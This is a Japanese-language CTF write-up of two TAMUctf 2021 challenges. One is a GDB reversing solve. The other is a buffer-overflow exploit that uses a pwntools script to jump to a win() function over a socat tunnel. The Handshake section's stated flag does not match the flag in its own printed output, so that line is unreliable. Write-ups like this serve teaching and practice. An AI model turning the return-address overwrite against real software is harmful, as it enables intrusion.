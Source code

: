 ```yaml
---
title: "TAMUctf 2021 Writeup"
date: 2021-05-04T15:30:00+09:00
lastmod: 2021-05-04T15:30:00+09:00
draft: false
keywords: []
description: ""
tags: ["CTF"]
categories: ["CTF"]
author: ""
---
```

{{% right %}}
<a href="https://translate.google.com/translate?hl=en&sl=ja&tl=en&u=https%3A%2F%2Fcaptureamerica.github.io%2Fwriteups%2Fpost%2Ftamuctf_2021%2F">
<img src="https://captureamerica.github.io/writeups/img/En.png" alt="English">
</a>
{{% /right %}}

URL: [https://tamuctf.com/challenges](https://tamuctf.com/challenges)
<br /><br />
去年のTAMU CTF 2020 ([Writeup](https://captureamerica.github.io/writeups/post/tamuctf_2020/)) は Network Pentest のチャレンジがあったりしたんですが、今年はなかったですね。残念〜。

<br />

800 points取りました。順位は、94thだったみたいです。（CTF TIME情報）

<br />

以下が解いたチャレンジです。

<img src="https://captureamerica.github.io/writeups/img/tamuctf_2021_Solved.png" alt="tamuctf_2021_Solved.png">

<br />


<br /><br />
## [Reversing]: Acrylic (100 points)
- - -
### Challenge
> This is an easy challenge. There is a flag that can be printed out from somewhere in this binary. Only one problem: There's a lot of fake flags as well.
<br /><br />
Hint: Try using GDB

Attachment:

- acrylic (ELF 64bit)


<br />

### Solution
問題文にあるように Fake flag が沢山あるため、stringsコマンドは使えません。<br /> (いちおう正解フラグもstringsで出てくるので、ひたすらSubmitしたら、そのうち当たりますけど。。)

<br />
GDBを使う前に、Ghidraでコードを見てみます。

```C
undefined8 main(void)
{
  puts("look at the code");
  return 0;
}


char * get_flag(void)
{
  int local_10;
  uint local_c;
  
  local_10 = 0x7b;
  local_c = 0;
  while (local_c < 0x7e4) {
    local_10 = ((local_10 + 1) * local_10) % 0x7f;
    local_c = local_c + 1;
  }
  return flags + (long)local_10 * 0x40;
}
```

<br />
main()は文字列を表示して終了するだけの関数です。

get_flag()は関数名から予想するに、flagを取得するための関数です。

<br />

GDBを使ってやることは、

1. main() で一旦break
2. get_flag() にもbreakをかけて、get_flag() へjump
3. returnする直前にbreakをかけて、戻り値を確認

となります。get_flag() 自体は flag を printf しないので、GDB内で値を確認する必要があります。

<br />

<pre>
gef➤ b main
gef➤ b get_flag
gef➤ jump get_flag
gef➤ disas get_flag
gef➤ b *0x00005555555546ab
gef➤ c

$rax   : 0x0000555555756620  →  "gigem{counteradvise_orbitoides}"
</pre>

<br />

Flag: `gigem{counteradvise_orbitoides}`



<br /><br />
<br /><br />
## [Pwn]: Handshake (150 points)
- - -
### Challenge
> Attack this binary and get the flag!
<br /><br />
openssl s_client -connect tamuctf.com:443 -servername handshake -quiet

Attachment:

- handshake (ELF 32bit)


<br />

### Solution
まず、問題文に出てくる openssl コマンドについてですが、News (announcement) で以下が出ていました。

<img src="https://captureamerica.github.io/writeups/img/tamuctf_2021_openssl.png" alt="tamuctf_2021_openssl.png">

<br />
socatでトンネルを確立したら、あとはローカルでやってるのと同じ感覚でできるようです。

<br /><br />

まずは、checksecを実行してみます。PIEは無効です。

<pre>
$ checksec handshake
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
</pre>

<br />
vuln() 関数でBOFができます。他に、win()関数があるので、BOFを起こしてwin()に飛ぶだけです。

```C
void vuln(void)

{
  char local_2c [36];
  
  printf("Whats the secret handshake? ");
  fflush((FILE *)0x0);
  gets(local_2c);
  putchar(10);
  return;
}
```

<br />
GDBでwin()のアドレスを確認。

<pre>
gef➤  b main
Breakpoint 1 at 0x8049321

gef➤  r
:

gef➤  p win
$1 = {&lt;text variable, no debug info&gt;} 0x80491c2 <win>
</pre>

<br />

書いたコード。

```Python
#!/usr/bin/env python
from pwn import *

s = remote('127.0.0.1', 4444)

payload = ''
payload += b'A' * 36
payload += b'B' * 8
payload += p32(0x080491c2)  # win()

s.sendlineafter("Whats the secret handshake? ", payload)
print s.recv()
```

<br />

結果：

<pre>
$ socat -d TCP-LISTEN:4444,reuseaddr,fork EXEC:'openssl s_client -connect tamuctf.com\:443 -servername handshake -quiet'

$ ./handshake_solve.py 
[+] Opening connection to 127.0.0.1 on port 4444: Done

Correct! gigem{r37urn_c0n7r0l1337}
</pre>

<br>

Flag: `gigem{z1pT4st1c__$kiLl$$$}`



<br /><br />
<br /><br />
- - -
<br /><br />
<br /><br />

